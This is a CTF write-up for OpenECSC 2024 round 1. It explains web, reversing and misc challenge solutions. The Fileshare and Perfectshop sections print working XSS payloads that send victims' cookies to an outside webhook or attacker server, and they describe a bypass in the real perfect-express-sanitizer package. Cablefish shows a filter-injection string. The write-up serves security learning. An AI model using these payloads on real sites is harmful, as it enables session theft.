

# OpenECSC 2024 round 1
https://github.com/ECSC2024/openECSC-2024 <br>
https://open.ecsc2024.it/

### Index
- [Web](#web)
    - [Fileshare](#chal1)
    - [Perfectshop](#chal2)
- [Reversing](#Reversing)
    - [fsvm1](#chal1)
- [Misc](#misc)
    - [Cablefish](#misc1)


# Web

## Fileshare
You can now share your files for free thanks to our new disruptive technology! <br>
Site: https://fileshare.challs.open.ecsc2024.it

### Solution

This challenge consists of a classic XSS (Cross Site Scripting) vulnerability. <br>
You are able to upload files and the goal is to get clients to execute a javascript payload, which steals their cookies. <br>
A headless rabbitmq chrome browser, containing the flag as a cookie, is used to simulate that client. You call it by sending a request to support.php.<br>

The Sanitization of the mimetype of the file uploaded is done poorly, it is possible to upload various malicious mimetypes such as application/xml, application/svg, etc. <br>
```php
// upload.php

// sanitize mimetype to not allow "h" letter
$type = $_FILES["file"]["type"];  // mime type of the file, not checked by php
// I don't like the letter 'h'
if ($type == "" || preg_match("/h/i", $type) == 1){    // empty or contains 'h'
    $type = "text/plain";
}

```

When downloading a file, the server adds the mimetype and reads the file and writes it to the output buffer using readfile(). <br>
```php
// download.php

if ($row) {
    $path = "/uploads/$id";
    header('Content-Type: '. $row['content_type']);

    // reads a file and writes it to the output buffer.
    readfile($path);
} else {
    header('Location: /');
}
```

My solution uses the application/xml mimetype to upload a xml file containing a javascript payload. This payload then sends the victims cookies to a server the attacker controll<br>
```javascript
Content-Type: application/xml

<script xmlns="http://www.w3.org/1999/xhtml"><![CDATA[
var message = document.cookie;
document.location="https://webhook.site/1425f028-434d-494f-8e2c-d308787ccebe/?c="+message;
]]></script>
```


## Perfectshop
Do you like perfect things? Check out my new online shop! <br>
Site: http://perfectshop.challs.open.ecsc2024.it

### Solution

To solve Perfectshop you need to craft a payload containing Path Traversal, XSS and using a 0day in an dependency used. <br>


The App utilizes the perfect-express-sanitizer middleware to sanitize every request for Cross Site Scripting, except requests going to the whitelisted /admin endpoint. <br>
Repository of sanitizer middleware: https://github.com/pariazar/perfect-express-sanitizer
```javascript
const sanitizer = require("perfect-express-sanitizer");
app.use(sanitizer.clean({ xss: true }, ["/admin"]));
```

The Sanitizer Middleware cointains a flaw, when checking for requests going to whitelisted endpoints. <br>
Commit fixing the 0day: https://github.com/pariazar/perfect-express-sanitizer/commit/32ff0f08c74bb4fa6224acff06ebbc3b869f16f5
```javascript
// it should be checking if the url starts with the whitelisted endpoint, not if it contains it.
if (req[k] && !whiteList.some((v) => req.url.trim().includes(v))) {
if (req[k] && !whiteList.some((v) => req.url.trim().startsWith(v))) {   // fixed version
```


It is important to include "/admin" in the URL and the body of the request, to prevent the sanitizer from cleaning the payload. <br>
First the payload uses a simple Path Traversal to access the /search endpoint, to be able to execute the reflected XSS vulnerability. <br>
Then the payload loads a script from the attackers server, which sends the cookies to the attacker. This is done to bypass the search query limit of 50 characters.<br>
#### Payload
```http
POST /report?q=/admin HTTP/1.1
id=3../../../search?q=<script%20src="http://<attackers_server>/admin"></script>&message=as/admin
```
#### Payload Script on Attackers Server
```javascript
fetch('http://<attackers_server>/${document.cookie}')
```


# Reversing

## fsvm1
I want this VM to generate a good description, but all I get is "no".

### Solution

Fsvm1 is a reversing challenge with VM-based obfuscation.<br>
Normally the goal would be to write a disassembler, which provides pseudo disassembly code of the bytecode. <br>
Luckily the virtual registers are implemented using files, which gives the possibility to monitor the filesystem for changes. When done, the flag is obtained as an ASCII encoded string of numbers.<br>

```bash
while inotifywait -e close_write -r regs/; do 
cat regs/*
done
```
```bash
regs/ CLOSE_WRITE,CLOSE reg0
1251111flag:0regs/ CLOSE_WRITE,CLOSE reg0
61flag:05210014000regs/ CLOSE_WRITE,CLOSE reg2
0121flag:052101565599521001400000000regs/ CLOSE_WRITE,CLOSE reg2
01211211flag:012111810999521015655995210014000000000000regs/ CLOSE_WRITE,CLOSE reg2
01011flag:011410197115121118109995210156559952100140000000000000000regs/ CLOSE_WRITE,CLOSE reg1
121flag:0115117112101114101971151211181099952101565599521001400000000000000000000regs/ CLOSE_WRITE,CLOSE reg2
691flag:06783671231151171121011141019711512111810999521015655995210014000000000000000000000000regs/ CLOSE_WRITE,CLOSE reg1
1111110flag:0111111210111069678367123115117112101114101971151211181099952101565599521001400000000000000000000000000000 
```

# Misc

## Cablefish
Welcome to our platform! Here you can do traffic analysis via TCP, isn't it awesome? <br>
Just specify your filter, we will sanitize it (we want to make sure no sensitive data will be leaked) and you will be given the traffic! <br>
This is a remote challenge, you can connect with: <br>
nc cablefish.challs.open.ecsc2024.it 38005 <br>

### Solution

when connecting you are able to specify a filter, the filter will be sanitized and then used to filter the traffic. <br>
the goal is to escape the sanitization to get the flag. <br>

```python
# sanitization filter:
filter = filter[:50]
sanitized_filter = f'(({filter}) and (not frame contains "flag_placeholder"))'

# payload: frame contains "flag_placeholder") or not (tcp

```




